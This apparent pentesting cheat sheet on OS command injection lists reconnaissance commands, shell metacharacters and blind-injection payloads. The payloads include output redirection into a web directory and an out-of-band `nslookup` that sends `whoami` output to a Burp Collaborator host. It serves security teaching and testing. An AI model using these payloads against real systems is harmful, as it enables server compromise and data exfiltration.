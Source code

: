 # ⭕ OS Command Injection

OS command injection (also known as shell injection) is a web security vulnerability that allows an attacker to execute arbitrary operating system (OS) commands on the server that is running an application, and typically fully compromise the application and all its data.

## <mark style="color:red;">Useful commands</mark>

| Purpose of command    |     Linux     |    Windows    |
| --------------------- | :-----------: | :-----------: |
| Name of current user  |     whoami    |     whoami    |
| Operating system      |    uname -a   |      ver      |
| Network configuration |  ifconfig -a  | ipconfig /all |
| Network connections   | netstat -tunl |  netstat -an  |
| Running processes     |     ps -ef    |    tasklist   |

## <mark style="color:red;">Blind OS command injection</mark>

<table><thead><tr><th width="295">Method</th><th>Command</th></tr></thead><tbody><tr><td>Time delays</td><td><pre><code>&#x26;ping -c 10 127.0.0.1
</code></pre><pre><code>||ping+-c+10+127.0.0.1+||
</code></pre></td></tr><tr><td>Redirecting output</td><td><pre><code>||whoami>/var/www/images/output.txt||
</code></pre></td></tr><tr><td>Out-Of-Band (OOB)<br>DNS lookup. You can use Burp Collaborator</td><td><p></p><pre><code>||nslookup+`whoami`.x.burpcollaborator.net||
</code></pre><pre><code>||nslookup+x.burpcollaborator.net||
</code></pre></td></tr></tbody></table>

## <mark style="color:red;">Useful meta characters</mark>

```
&
&&
|
||
;
Newline (0x0a or \n)
`injected command `
$( injected command )
```
